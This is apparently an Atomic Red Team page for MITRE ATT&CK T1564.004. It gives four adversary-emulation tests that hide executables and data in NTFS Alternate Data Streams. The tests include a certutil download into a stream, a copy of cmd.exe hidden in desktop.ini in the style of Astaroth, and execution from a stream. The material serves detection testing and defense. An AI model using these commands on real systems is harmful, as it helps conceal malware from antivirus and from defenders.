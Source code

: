 # T1564.004 - NTFS File Attributes
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1564/004)
<blockquote>Adversaries may use NTFS file attributes to hide their malicious data in order to evade detection. Every New Technology File System (NTFS) formatted partition contains a Master File Table (MFT) that maintains a record for every file/directory on the partition. (Citation: SpectorOps Host-Based Jul 2017) Within MFT entries are file attributes, (Citation: Microsoft NTFS File Attributes Aug 2010) such as Extended Attributes (EA) and Data [known as Alternate Data Streams (ADSs) when more than one Data attribute is present], that can be used to store arbitrary data (and even complete files). (Citation: SpectorOps Host-Based Jul 2017) (Citation: Microsoft File Streams) (Citation: MalwareBytes ADS July 2015) (Citation: Microsoft ADS Mar 2014)

Adversaries may store malicious data or binaries in file attribute metadata instead of directly in files. This may be done to evade some defenses, such as static indicator scanning tools and anti-virus. (Citation: Journey into IR ZeroAccess NTFS EA) (Citation: MalwareBytes ADS July 2015)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Alternate Data Streams (ADS)](#atomic-test-1---alternate-data-streams-ads)

- [Atomic Test #2 - Store file in Alternate Data Stream (ADS)](#atomic-test-2---store-file-in-alternate-data-stream-ads)

- [Atomic Test #3 - Create ADS command prompt](#atomic-test-3---create-ads-command-prompt)

- [Atomic Test #4 - Create ADS PowerShell](#atomic-test-4---create-ads-powershell)


<br/>

## Atomic Test #1 - Alternate Data Streams (ADS)
Execute from Alternate Streams

[Reference - 1](https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f)

[Reference - 2](https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/)

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| path | Path of ADS file | path | c:&#92;ADS&#92;|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"
extrac32 #{path}\procexp.cab #{path}\file.txt:procexp.exe
findstr /V /L W3AllLov3DonaldTrump #{path}\procexp.exe > #{path}\file.txt:procexp.exe
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1564.004/src/test.ps1 c:\temp:ttt
makecab #{path}\autoruns.exe #{path}\cabtest.txt:autoruns.cab
print /D:#{path}\file.txt:autoruns.exe #{path}\Autoruns.exe
reg export HKLM\SOFTWARE\Microsoft\Evilreg #{path}\file.txt:evilreg.reg
regedit /E #{path}\file.txt:regfile.reg HKEY_CURRENT_USER\MyCustomRegKey
expand \\webdav\folder\file.bat #{path}\file.txt:file.bat
esentutl.exe /y #{path}\autoruns.exe /d #{path}\file.txt:autoruns.exe /o
```






<br/>
<br/>

## Atomic Test #2 - Store file in Alternate Data Stream (ADS)
Storing files in Alternate Data Stream (ADS) similar to Astaroth malware.
Upon execution cmd will run and attempt to launch desktop.ini. No windows remain open after the test

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| payload_path | Path of file to hide in ADS | path | c:&#92;windows&#92;system32&#92;cmd.exe|
| ads_file_path | Path of file to create an ADS under | path | C:&#92;Users&#92;Public&#92;Libraries&#92;yanki&#92;desktop.ini|
| ads_name | Name of ADS | string | desktop.ini|


#### Attack Commands: Run with `powershell`! 


```powershell
if (!(Test-Path C:\Users\Public\Libraries\yanki -PathType Container)) {
    New-Item -ItemType Directory -Force -Path C:\Users\Public\Libraries\yanki
    }
Start-Process -FilePath "$env:comspec" -ArgumentList "/c,type,#{payload_path},>,`"#{ads_file_path}:#{ads_name}`""
```

#### Cleanup Commands:
```powershell
Remove-Item "#{ads_file_path}" -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #3 - Create ADS command prompt
Create an Alternate Data Stream with the command prompt. Write access is required. Upon execution, run "dir /a-d /s /r | find ":$DATA"" in the %temp%
folder to view that the alternate data stream exists. To view the data in the alternate data stream, run "notepad T1564.004_has_ads.txt:adstest.txt"

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_name | File name of file to create ADS on. | string | %temp%&#92;T1564.004_has_ads_cmd.txt|
| ads_filename | Name of ADS. | string | adstest.txt|


#### Attack Commands: Run with `command_prompt`! 


```cmd
echo cmd /c echo "Shell code execution."> #{file_name}:#{ads_filename}
for /f "usebackq delims=?" %i in (#{file_name}:#{ads_filename}) do %i
```

#### Cleanup Commands:
```cmd
del #{file_name} >nul 2>&1
```





<br/>
<br/>

## Atomic Test #4 - Create ADS PowerShell
Create an Alternate Data Stream with PowerShell. Write access is required. To verify execution, the the command "ls -Recurse | %{ gi $_.Fullname -stream *} | where stream -ne ':$Data' | Select-Object pschildname"
in the %temp% direcotry to view all files with hidden data streams. To view the data in the alternate data stream, run "notepad.exe T1564.004_has_ads_powershell.txt:adstest.txt" in the %temp% folder.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_name | File name of file to create ADS on. | string | $env:TEMP&#92;T1564.004_has_ads_powershell.txt|
| ads_filename | Name of ADS file. | string | adstest.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
echo "test" > #{file_name} | set-content -path test.txt -stream #{ads_filename} -value "test"
set-content -path #{file_name} -stream #{ads_filename} -value "test2"
set-content -path . -stream #{ads_filename} -value "test3"
```

#### Cleanup Commands:
```powershell
Remove-Item -Path #{file_name} -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: The file must exist on disk at specified location (#{file_name})
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_name}) { exit 0 } else { exit 1 } 
```
##### Get Prereq Commands:
```powershell
New-Item -Path #{file_name} | Out-Null
```




<br/>
